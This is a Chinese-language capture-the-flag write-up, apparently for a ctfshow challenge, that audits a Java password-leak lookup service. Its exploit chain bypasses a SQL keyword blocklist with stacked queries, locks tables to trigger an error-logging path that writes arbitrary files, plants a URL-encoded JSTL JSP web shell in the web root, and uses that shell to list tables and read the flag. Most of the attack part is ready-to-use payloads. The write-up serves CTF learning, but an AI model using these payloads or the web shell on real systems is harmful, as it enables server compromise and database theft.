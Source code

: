 首先审计看关键代码
~~~
public String auth(@RequestParam String username, @RequestParam String password, HttpServletRequest request){
    String message="社工库未查询到泄露记录，你的账号是安全的。";

    if(SafeUtil.sql_check(username) || SafeUtil.sql_check(password)){
        message="stop sql inject!";
        return message;
    }

    try {
        String sql = "select username,password from app_user where username ='" + username + "' and password ='" + password + "' ;";
        ResultSet resultSet = DbUtil.getInstance().query(sql);
        if (null != resultSet) {
            while (resultSet.next()) {
                message = "您的QQ账号密码已经泄露，请立即修改密码";
                break;
            }
        }
    }catch (Exception e){
        e.printStackTrace();
        message="数据查询出错";
    }
    insertQueryLog(username,password);
    return message;
}
~~~
跟进看过滤
~~~
public static boolean sql_check(String sql){

    sql = sql.toLowerCase(Locale.ROOT);
    String ban[] = {"'",
            "file",
            "information",
            "mysql",
            "from",
            "update",
            "delete",
            "select",",","union","sleep","("};
    for (String s:ban) {
        if(sql.contains(s)){
            return true;
        }
    }
    return false;
}
~~~
虽然过滤的单引号，直接转义绕过，继续看配置文件config.properties
url=jdbc:mysql://127.0.0.1:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC
db_username=root
db_password=root

明显开启了堆叠，而且没过滤分号，直接堆叠可以注入，但是其他的无法绕过
继续看代码，跟进 insertQueryLog(username,password);
~~~
private int insertQueryLog(String username,String password){
    String sql = "insert into app_query_log(username,password) values(?,?);";
    Connection connection = DbUtil.getConnection();
    PreparedStatement preparedStatement;
    int count=0;
    try {
        connection.setAutoCommit(false);
        preparedStatement=connection.prepareStatement(sql);
        preparedStatement.setQueryTimeout(3);
        preparedStatement.setString(1,username);
        preparedStatement.setString(2,password);
        count = preparedStatement.executeUpdate();
        connection.commit();
    } catch (SQLException e) {
        LogUtil.save(username,password);
        e.printStackTrace();
    }

    return count;
}
~~~
跟进LogUtil.save方法
~~~
public class LogUtil {
    public LogUtil() {
    }

    public static void save(String username, String password) {
        FileUtil.SaveFileAs(username, password);
    }
}
~~~
继续跟进FiltUtil.SaveFileAs方法
~~~
public static boolean SaveFileAs(String content, String path) {
    FileWriter fw = null;

    boolean var4;
    try {
        fw = new FileWriter(new File(path), false);
        if (content != null) {
            fw.write(content);
        }

        return true;
    } catch (IOException var14) {
        var14.printStackTrace();
        var4 = false;
    } finally {
        if (fw != null) {
            try {
                fw.flush();
                fw.close();
            } catch (IOException var13) {
                var13.printStackTrace();
            }
        }

    }

    return var4;
}
~~~
那么思路就清晰起来了，只要报异常，就能以username为内容，password为文件名来实现任意文件写
但是过滤了(就很伤，没有办法调用方法
所以到这里时，需要解决两个问题：

- 让sql报错，进入catch异常，实现任意文件写
- 不用括号，读取数据库内容

接着我们来一一解决
首先看看要让其报错的语句
String sql = "insert into app_query_log(username,password) values(?,?);";
很明显是一个插入语句，怎么才能失败呢，有几种方法

1.修改app_query_log表，让username为主键，重复插入时会报异常。
2.删除app_query_log表，找不到要插入的表，报异常
3.锁表

我们这里使用比较优雅的方式，就是锁表来实现
第一步，先锁表，禁止更新的情况下，插入会报异常。
username=a\&password=;flush tables with read lock;%23
第二步，写入jsp文件，由于过滤了括号，这时候只能使用jstl标签来执行，完美避开了括号
下面是标签执行sql语句并回显的小马
~~~
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/sql" prefix="sql"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c"%>
<%@ page isELIgnored="false" %>
<sql:setDataSource var="test" driver="${param.driver}"
        url="${param.url}" user="root" password="root" />
   <sql:query dataSource="${test}" var="result">
        ${param.sql}
    </sql:query>

<table border="1" width="100%">
        <tr>
            <th>ctfshow</th>
        </tr>
        <c:forEach var="row" items="${result.rows}">
            <tr>
                <td><c:out value="${row.t}" /></td>
            </tr>
        </c:forEach>
    </table>
~~~    
被过滤的关键字，一律使用get参数注入，绕过waf，payload如下：
~~~
    username=%3C%25%40%20page%20language%3D%22java%22%20contentType%3D%22text%2Fhtml%3B%20charset%3DUTF-8%22%0A%20%20%20%20pageEncoding%3D%22UTF-8%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fsql%22%20prefix%3D%22sql%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fcore%22%20prefix%3D%22c%22%25%3E%0A%3C%25%40%20page%20isELIgnored%3D%22false%22%20%25%3E%0A%3Csql%3AsetDataSource%20var%3D%22test%22%20driver%3D%22%24%7Bparam.driver%7D%22%0A%20%20%20%20%20%20%20%20url%3D%22%24%7Bparam.url%7D%22%20user%3D%22root%22%20password%3D%22root%22%20%2F%3E%0A%20%20%20%3Csql%3Aquery%20dataSource%3D%22%24%7Btest%7D%22%20var%3D%22result%22%3E%0A%20%20%20%20%20%20%20%20%24%7Bparam.sql%7D%0A%20%20%20%20%3C%2Fsql%3Aquery%3E%0A%0A%0A%0A%3Ctable%20border%3D%221%22%20width%3D%22100%25%22%3E%0A%20%20%20%20%20%20%20%20%3Ctr%3E%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3Et%3C%2Fth%3E%0A%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3Cc%3AforEach%20var%3D%22row%22%20items%3D%22%24%7Bresult.rows%7D%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Ctr%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3E%3Cc%3Aout%20value%3D%22%24%7Brow.t%7D%22%20%2F%3E%3C%2Ftd%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3C%2Fc%3AforEach%3E%0A%20%20%20%20%3C%2Ftable%3E&password=../webapps/ROOT/1.jsp
~~~    
    成功生成1.jsp作为小马
第三步，使用小马，查询数据库所有表的名字
http://xxx/1.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select group_concat(table_name) as t from information_schema.tables where table_schema="app";

第四步，读取flag值
http://xxx.com/1.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select f1ag as t from app_flag_xxoo_non0 union select 1;
